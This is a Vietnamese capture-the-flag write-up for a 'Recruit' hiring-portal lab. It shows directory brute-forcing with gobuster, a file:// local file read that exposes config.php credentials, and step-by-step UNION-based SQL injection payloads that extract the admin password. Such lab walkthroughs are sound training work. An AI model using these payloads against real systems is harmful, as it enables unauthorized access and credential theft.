# **Recruit Challenge**
Đề nói rằng **Recruit** vừa ra mắt cổng tuyển dụng mới, cho phép nhân viên nhân sự quản lý hồ sơ ứng viên và quản trị viên giám sát các quyết định tuyển dụng\
Mặc dù nền tảng này có vẻ hoạt động tốt nhưng ban quản lý nghi ngờ rằng bảo mật có thể đã bị bỏ qua trong quá trình phát triển. Nhiệm vụ của bạn là đánh giá ứng dụng như một kẻ tấn công thực sự, lập bản đồ cấu trúc của nó, lạm dụng chức năng bị lộ và khai thác các lỗ hổng.
>Bạn có thể có được chỗ đứng ban đầu, leo thang đặc quyền và cuối cùng đăng nhập với tư cách là quản trị viên không?




Khi truy cập web, ta thấy có một form đăng nhập\
Ta thử kiểm tra xem có lỗ hổng SQLi không?



Khi ta thực hiện chèn thêm dấu `'` để xác minh thì trên UI không có lỗi gì đến từ server 



Khi quan sát trong Burp Suite, ta cũng thấy không có lỗi hay dấu hiệu nào trả về khác thường (*với cả form `username` và `password`*)\
Khi đó ta quan sát được rằng bên dưới có một đường link `Access API`



Khi truy cập đường dẫn này, ta thấy rằng có một thông tin về đọc file `/file.php?cv=<URL>` \
Do cũng chưa biết web expose những phần nào, ta sử dụng gobuster để bruteforce đường dẫn

```bash
gobuster dir -u http://10.49.173.77  -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt 
```



Kết quả là ta được những đường dẫn như trong ảnh, có mục truy cập được (*`301` và `200`*) và có cả những thư mục không truy cập được (*`403` do không có quyền*)




Ta thực hiện truy cập đường dẫn `/mail`, ở đó có file `mail.log`, ta thực hiện đọc file 



Ta nhận được thông tin: tài khoản của **HR** có username là `hr` và nó được lưu trong file `config.php`; tài khoản **admin** không được lưu trong file đó mà được lưu trong DB



Ta truy cập `/config.php`, dù kết quả là truy cập được nhưng không có nội dung gì được trả về\
Có thể ta phải thực hiện đọc nội dung file\
Kết hợp với `/file.php?cv=<URL>`, ta có thể thực hiện việc đọc file, nhưng cần phải biết đường dẫn tuyệt đối của file `config.php`\



Khi thực hiện đọc, ta thấy được web thông báo `Only local files are allowed`, có nghĩa là ta cần một phương thức đọc file local\
Mà ta có thể sử dụng `file:\\<file_path>` để có thể đọc file trong máy



Khi truy cập bằng `/file.php?cv=file:///var/www/html/config.php`, ta có thể lấy được nội dung của file `config.php` và mật khẩu của tài khoản HR là `hrpassword123` 



Sau khi đăng nhập thành công tài khoản HR, ta thấy được web có một form tìm kiếm ứng viên\
Ta có thể dự đoán nó có thể bị `XSS` hoặc `SQLi`



Khi thực hiện tìm kiếm với một từ khóa cụ thể, ta thấy được web chỉ thực hiện việc tìm kiếm chứ không in gì ra màn hình --> **không phải Reflected XSS**



Thực hiện tìm kiếm bằng kí tự `'`, ta thấy được web trả về lỗi SQL\
Điều này chắc chắn rằng web tồn tại lỗ hổng **SQLi**



Ta thực hiện kiểm tra số cột mà web truy vấn bằng payload

```sql
' UNION SELECT NULL,NULL,NULL,NULL-- 
```

Kết quả là ta thu được là **4** cột\
Tiếp tục thực hiện tìm kiếm tên DB bằng payload 

```sql
' UNION SELECT database(),NULL,NULL,NULL-- 
```



Kết quả ta thu được tên DB là `recruit_db`\
Ta tiếp tục tìm tên của tất cả các bảng trong DBb này

```sql
' UNION SELECT group_concat(table_name),NULL,NULL,NULL FROM information_schema.tables WHERE table_schema='recruit_db'-- 
```



Kết quả là thu được 2 bảng là `candidates` và `users`\
Ta tiếp tục tiến hành thu thập tất cả các cột trong bảng `users`

```sql
' UNION SELECT group_concat(column_name),NULL,NULL,NULL FROM information_schema.columns WHERE table_name='users'-- 
```



Ta thu được các cột `CURRENT_CONNECTIONS`,`MAX_SESSION_CONTROLLED_MEMORY`,`MAX_SESSION_TOTAL_MEMORY`,`TOTAL_CONNECTIONS`,`USER`,`id`,`password`,`username`\
Cuối cùng ta sẽ lấy ra thông tin đăng nhập của admin

```sql
' UNION SELECT username,password,NULL,NULL FROM users WHERE username='admin'-- 
```



Ta thu được mật khẩu của admin là **admin@001admin**



Đăng nhập và nhận flag cuối cùng


